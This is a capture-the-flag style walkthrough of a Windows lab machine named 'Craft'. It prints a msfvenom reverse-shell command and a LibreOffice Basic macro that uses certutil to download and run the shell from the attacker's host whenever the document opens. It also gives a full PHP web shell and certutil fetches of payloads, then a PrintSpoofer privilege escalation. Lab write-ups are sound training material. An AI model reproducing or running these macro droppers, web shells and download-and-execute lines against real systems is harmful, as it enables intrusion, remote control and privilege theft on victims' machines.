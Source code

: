 # Craft

### Enumeration

```
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
```

There is a file upload function in the web server. It expects odt file. We try to get access with OpenOffice Macro. First, we need to install libreoffice.

```
$ sudo apt install libreoffice
```

### Initial Access

Create an odt file.

Adding macro:

Tools -> Macros -> Organize Macros -> Basic -> Select the document -> New(Macro Name module)

Then edit the macro:

Select Macro Name -> Edit

We should create a executable for shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.147 LPORT=80 -f exe -o shell.exe
```

Add these contents to macro page.

```
Sub Evil
    Shell("certutil.exe -urlcache -split -f http://192.168.49.147:8080/shell.exe C:\Windows\Temp\shell.exe && \Windows\Temp\shell.exe")
End Sub
```

Finally, we will make a creation of trigger to execute our macro.

Tools -> Customize -> Events -> Select "Open Document" -> Click: “Assign: Macro” -> Select the document's macro which name is Evil.

### Lateral Movement

To apache user.

&#x20;https://www.revshells.com/ - PHP cmd - shell.php

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

```
C:\xampp\htdocs> certutil.exe -urlcache -split -f http://192.168.49.147/shell.php
```

```
http://192.168.147.169/shell.php?cmd=whoami
craft\apache
→ certutil.exe -urlcache -split -f http://192.168.49.147:8080/shell.exe C:\Windows\Temp\shell.exe
→ \Windows\Temp\shell.exe
```

### PrivEsc

SeImpersonatePrivilege - Enabled

PrintSpoofer.exe - https://github.com/dievus/printspoofer

```
C:\users\apache\Desktop> certutil.exe -urlcache -split -f "http://192.168.49.147:8080/PrintSpoofer.exe"
C:\users\apache\Desktop> PrintSpoofer.exe -i -c cmd
```
